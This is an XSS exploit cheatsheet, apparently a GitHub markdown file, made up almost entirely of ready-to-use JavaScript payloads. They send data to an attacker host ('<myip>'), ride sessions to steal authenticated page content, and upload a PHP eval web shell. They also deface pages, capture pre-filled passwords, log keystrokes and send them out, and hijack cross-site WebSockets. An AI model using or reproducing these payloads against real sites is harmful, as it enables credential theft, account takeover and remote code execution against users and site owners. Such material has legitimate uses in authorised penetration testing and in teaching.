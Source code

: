 # XSS Exploit Cheatsheet

=====

## Send something back or CSRF

GET

```javascript
var uri = "http://<myip>/";
var query = "?message=" + encodeURIComponent("<some-data>");
xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		// do something after sent
	}
}
xhr.open("GET", uri + query, true);
xhr.send();
```

POST (application/json)

```javascript
var req = new XMLHttpRequest();
req.open("POST", "http://<target>", true); 
req.setRequestHeader("Content-type", "application/json");
req.send(JSON.stringify({
    data: "data"
}));
```

POST (multipart-formdata)

```javascript
var code = "<? eval($_REQUEST[0]);";
var ctype = "text/plain";
var fname = "g.php";
var form = new FormData();
form.append("newAttachment", new Blob([code],  { type: ctype }), fname);

var uri = "http://<target>/";
xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.send(form);
```

## Session Riding

```javascript
var href = "http://<target>/somepage";
fetch(href, {
    "credentials": 'include',
    "method": "get",
})
.then((response) => {
    return response.text();
})
.then( text => {
	// post something back
	fetch("http://<myip>/record", {
		method: "POST",
		headers: {
            "content-Type": "application/json"
        },
        body: JSON.stringify({
            url: href,
            content: text
        })
	})
})
```

## Defacement

```javascript
html_element = document.getElementsByTagName('html')[0];
html_element.innerHTML = '<!DOCTYPE html><html lang="en"> ... </html>';
```

## Fetch auth pages

Based on `<iframe>`, we can delay N seconds and grab all `<a>` to fetch pages. See [fetchAuth.js](utils/fetchAuth.js).

## Capture pre-filled password

```javascript
var source = 'https://myip'
Array.from(document.forms).forEach( form => {
    Array.from(form.elements).forEach(elem => {
        if(elem.type === "password") {
            fetch(source + "/prefill", {
                method: "POST",
                headers: {
                    "content-Type": "application/json"
                },
                body: JSON.stringify({
                    name: elem.name,
                    value: elem.value
                })
            });
        }
    });
});
```

## KeyLogger

```javascript
var source = 'https://myip';
var recordObj = {};
document.onkeypress = function (e) {
    var current = document.activeElement;
    recordObj[current.name] = recordObj[current.name] || "";
    recordObj[current.name] += e.key;

    
    var req = new XMLHttpRequest();
    req.open("POST",source + "/keylog", true); 				// ADD URL HERE!
    req.setRequestHeader("Content-type", "application/json");
    req.send(JSON.stringify({
        data: recordObj[current.name],
        tagname: current.name,
        tagval: current.value
    }));
    
}
```

## API Server on Attacker side

use `Flask-Cors` to serve resource. See [apiServ.py](utils/apiServ.py)

## Cross-Site WebSocket Hijacking

Requirement: Websocket HTTP request has no CSRF protection.

`wss://  with  https://` and `ws://  with  http://`

```javascript
websocket = new WebSocket('wss://<target>')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
    // initialize the socket
    websocket.send("xxx");
}
function handleReply(event) {
    // hijack socket message here
    // no-cors mimic the <img>'s request
    fetch('https://<myip/?'+event.data, {mode: 'no-cors'})
}
```


